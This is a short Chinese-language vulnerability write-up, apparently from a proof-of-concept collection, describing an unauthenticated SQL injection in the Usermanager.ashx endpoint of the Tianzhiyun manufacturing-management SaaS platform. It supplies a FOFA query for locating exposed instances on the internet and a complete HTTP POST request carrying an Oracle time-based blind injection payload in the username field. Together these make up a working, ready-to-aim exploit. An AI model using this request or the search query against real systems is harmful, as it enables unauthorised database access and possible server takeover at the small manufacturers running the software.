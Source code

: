 ## 天智云智造管理平台Usermanager.ashx存在SQL注入漏洞

天智云智造管理平台又称天智云SAAS平台，是专业为中小型生产企业提供智能化生产管理的标准MES软件。该系统向中小型生产企业提供一站式平台服务，串联销售采购/生产/质量/仓库等各个部门。其Usermanager.ashx 接口处存在SQL注入漏洞，未经授权攻击者可通过该漏洞获取数据库敏感信息，进一步利用可获取服务器权限，导致网站处于极度不安全状态。

## fofa

```
body="Ashx/Usermanager.ashx"
```

## poc

```
POST /Ashx/Usermanager.ashx HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded
 
type=LOGIN&username=1') AND 8645=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)
,8)--&pwd=1&vendor=
```

![image-20240605183209800](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406051832854.png)